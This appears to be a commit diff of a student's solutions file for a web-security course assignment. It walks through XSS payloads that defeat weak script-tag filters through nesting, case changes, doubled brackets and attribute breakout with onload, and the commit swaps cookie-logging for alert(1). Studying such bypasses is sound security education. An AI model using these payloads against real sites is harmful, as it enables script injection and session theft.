

Before and after one commit to Sivnerof/CS253, a Markdown page: Assignment-1/SOLUTIONS.md, 3 parts joined by grey strips. Shown at 81% size. Rendered like a GitHub page.

````diff
--- a/Assignment-1/SOLUTIONS.md
+++ b/Assignment-1/SOLUTIONS.md
@@ -5,7 +5,7 @@ N/A
 # 1. A Truly Disruptive Startup (3 points)
 
 ```js
-<script>console.log(document.cookie)</script>
+<script>console.log(alert(1))</script>
 ```
 
 # 2. No Script Allowed (3 points)
@@ -13,7 +13,7 @@ N/A
 Non recursive stripping of ```<script>``` tag allows us to bypass filter by embedding ```script``` within ```script``` like so: ```<scriscriptpt>```
 
 ```
-<scriscriptpt>console.log(document.cookie)</script>
+<scriscriptpt>console.log(alert(1))</script>
 ```
 
 # 3. One More Time, Like You Mean It (3 points)
@@ -21,7 +21,7 @@
 Same solution as above, except this time the regex will catch all instances of the word ```script```, so we need to hide ```script``` within the end tag as well.
 
 ```
-<scriscriptpt>console.log(document.cookie)</scriscriptpt>
+<scriscriptpt>console.log(alert(1))</scriscriptpt>
 ```
 
 # 4. An Open-and-Shut Case (3 points)
@@ -29,7 +29,7 @@ Same solution as above, except this time the regex will catch all instances of t
 This time regex is used to recursively remove the word ```script``` but the ```i``` flag is not set, so we can just do ```<SCRIPT>``` instead of ```<script>```.
 
 ```js
-<SCRIPT>console.log(document.cookie)</SCRIPT>
+<SCRIPT>console.log(alert(1))</SCRIPT>
 ```
 
 # 5. Time to Mix Things Up (3 points)
@@ -37,7 +37,7 @@
 This time both ```script``` and ```SCRIPT``` are blacklisted so we can use ```ScRiPt``` instead to bypass the filter.
 
 ```js
-<ScRiPt>console.log(document.cookie)</ScRiPt>
+<ScRiPt>console.log(alert(1))</ScRiPt>
 ```
 
 # 6. A Picture is Worth a Thousand Words (3 points)
@@ -63,7 +63,7 @@
 Attack input:
 
 ```
-<<script>>console.log(document.cookie)</script>
+<<script>>console.log(alert(1))</script>
 ```
 
 Server code:
@@ -92,7 +92,7 @@ Opening angle is now blocked, so new payload will have to be injected into an HT
 If we search for ```test' hello``` we'll see the output is still ```test' hello```. But ```test" hello``` outputs ```test``` so we know ```"``` is the string terminator. Our new payload is:
 
 ```
-test" onload=console.log(document.cookie)
+test" onload=console.log(alert(1))
 ```
 
 # 11. You Can't Win 'em All (6 points)
@@ -102,7 +102,7 @@ Attack input:
 The ```"``` character has been filtered, but only once. So the new payload is:
 
 ```
-test"" onload=console.log(document.cookie)
+test"" onload=console.log(alert(1))
 ```
 
 # 12. When All is Said and Done (6 points)
@@ -112,7 +112,7 @@ Attack input:
 Similar attack but this time the string is terminated with ```'```.
 
 ```
-test' onload=console.log(document.cookie)
+test' onload=console.log(alert(1))
 ```
 
 # 13. When You Want a Job Done Right
````
Also changed, not shown: other parts of Assignment-1/SOLUTIONS.md (+69 -5 lines).
